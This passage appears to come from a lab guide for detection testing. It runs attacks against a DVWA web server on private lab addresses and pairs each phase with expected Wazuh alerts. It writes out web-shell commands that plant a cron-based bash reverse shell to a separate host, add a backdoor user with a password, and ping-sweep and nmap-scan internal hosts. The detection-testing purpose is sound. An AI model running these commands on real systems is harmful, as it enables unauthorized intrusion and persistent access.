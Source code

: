 **Expected Detections:**

- Privilege escalation attempts
- Wazuh Rule: 40111 (Privilege escalation attempt)
- Alert Level: Critical

### Phase 5: Persistence (10 minutes)

#### 5.1 Backdoor Creation

```bash
# Create persistent backdoor
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=echo '*/5 * * * * /bin/bash -c \"bash -i >& /dev/tcp/192.168.1.100/4444 0>&1\"' | crontab -"

# Create SSH backdoor
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=useradd -m -s /bin/bash backdoor"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=echo 'backdoor:password123' | chpasswd"
```

**Expected Detections:**

- Crontab modification
- User account creation
- Wazuh Rules: 2902 (User account added), 2904 (Crontab modified)
- Alert Level: High

---

## Scenario 2: Network Lateral Movement

### Objective

Demonstrate lateral movement techniques from compromised web server to internal network resources.

### Target Systems

- **Start**: Ubuntu Web Server (192.168.2.10)
- **Targets**: Windows DC (192.168.3.10), RHEL DB (192.168.3.20)

### Attack Timeline

**Duration**: 45-60 minutes  
**Complexity**: Advanced  
**MITRE ATT&CK Techniques**: T1021, T1110, T1135, T1018

### Phase 1: Internal Network Discovery (15 minutes)

#### 1.1 Network Scanning from Compromised Host

```bash
# Ping sweep of internal networks
for i in {1..254}; do
  curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=ping -c 1 192.168.3.$i | grep '64 bytes'"
done

# Port scanning internal hosts
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=nmap -sS 192.168.3.10"
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=nmap -sS 192.168.3.20"
```
